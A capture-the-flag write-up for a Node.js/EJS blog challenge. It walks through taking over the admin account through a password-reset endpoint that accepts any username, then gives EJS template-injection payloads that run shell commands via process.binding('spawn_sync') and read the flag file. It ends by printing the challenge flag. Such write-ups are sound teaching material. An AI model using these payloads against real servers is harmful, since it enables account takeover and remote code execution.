





#### Horrid Henry Writeup

Prompt:
```I hope you like my new blogging site. Currently, only the admin can post blogs. He has posted a few times, but he won't let anyone else see them. I remember he mentioned Henry in his first post.Please solve the challenge locally first.```

Author: `bond@james`

Points: `500`


We are provided the source code as well. Going through the source code, we find that there is a security flaw in reset password endpoint.
```js
app.post("/resetPassword", auth, async (req, res) => {
    const { username, newPassword } = req.body;
    const idx = users.findIndex(user => user.username === username);
    if (idx === -1) return res.status(404).send("User not found. ");
    try {
        const salt = await bcrypt.genSalt(10);
        const hashedPassword = await bcrypt.hash(newPassword, salt);
        users[idx] = { ...users[idx], password: hashedPassword }
        return res.send("Password reset successfully.")
    } catch (err) {
        console.log(err);
        return res.status(500).json({response: "Internal Server Error."})
    }
})
```

The endpoint only verifies whether the user is logged in or not, using the auth middleware (which verifies the auth token), then extracts the username and password from the request body, and changes the password for the username. So to reset some other user's password all we need to ensure is to be logged in and change the username in our request body. Using this we can change admin's password.
Steps: 
1. Register yourself.
2. Login.
3. Go to reset password endpoint.
4. Enter some password and change the username in request body. You can do it in any way you like, here I will do it in burpsuite:









Then logging as admin, we find two more options unlocked for us. `Add Post` and `Modify Post`. 

Going to the modify post, we find two posts by admin are disabled. After enabling them, we find:

Post 1:
```
Well, well, well...
Welcome to my everyday blog!

Yesterday, I was out with Henry. You might remember him from my last post, which was unfortunately deleted by mistake. He shared some secret information with me: pearl{not_so_easy_dude}. However, he told me that this is not the actual secret he wanted to share.

I'm curious to know the real secret, but he refuses to tell me. I wish he trusted me more.
```

This post indicates that the secret is not `pearl{not_so_easy_dude}` and there is a different secret that we may find.

Post 2:

```
I got access to Henry's system yesterday, but he caught me. He told me that the secret I am looking for is on my system but did not tell me its location. I wish someone would help me find it.
```

So this indicates that the secret is in admin's system! Looking over the files provided, it is named something like flag_somerandomtext.txt .

So our next objective is to find the exact file name and read its content.

Reading the source code again, we find the addPost endpoint:
```js
app.post("/addPost", auth, isAdmin, async (req, res) => {
    try {
        const user = "admin";
        const { content, title, visibility} = req.body;
        const [result, msg] = await addPost(content, title, visibility);
        if (result) {
            return res.status(200).json({ response: "Added Post." })
        } else {
            return res.json({response: "Failed to add post.", error: msg})
        }
    } catch (err) {
        console.log(err);
        return res.status(500).json( {response: "Internal server error. "})
    }
})
```

This function takes the content, heading and properties about the post and add them:

```js
async function addPost(content, heading, props) {
    try {
        const files = await fs.readdir("posts");
        const idx = files.length + 1;
        await fs.mkdir(`posts/${idx}`)
        await fs.writeFile(`posts/${idx}/content.ejs`, content)
        await fs.writeFile(`posts/${idx}/properties.json`, JSON.stringify({id: idx, author: "admin", title: heading, content: content.substring(0, 20) + "...", visibility: props.visibility}))
        return [true, ""];
    } catch (err) {
        return [false, err];
    }
}
```

Here we can see that our content is written into the content.ejs file, which is included into the post:
##### Contents of views/post.ejs:
```ejs
<div class="post-container">
    <h1><%= title %></h1>
    <div class="post-meta">
      By <%= author %>
    </div>
    <div class="post-content">
      <%- include(`../posts/${id}/content`) %>
    </div>
  </div>
```

So we directly control the ejs file and hence we can exploit this doing some EJS SSTI.

Payload:
```ejs
<%= process.binding("spawn_sync").spawn({file:"ls",args:["-l"],stdio:[{type:"pipe",readable:true,writable:false},{type:"pipe",readable:false,writable:true},{type:"pipe",readable:false,writable:true},],}).output.toString() %>
```

Then on visiting our new post, we can see the file names: (If it's not showing the file names with your payload (happens if you use \<\% in place of \<\%=), you can redirect the output to some file like register.ejs, login.ejs and visit their endpoints to see the content):



So now we have our flag file name, we can simply add another post with the following payload, (yes you can also cat the file if you want):

```ejs
<%- include('/app/flag_28ca7ho9ns.txt') %>
```




### FLAG!!
`pearl{th4ts_s0me_c00l_injection_you_f0und_th3r3_my_fri3nd}`

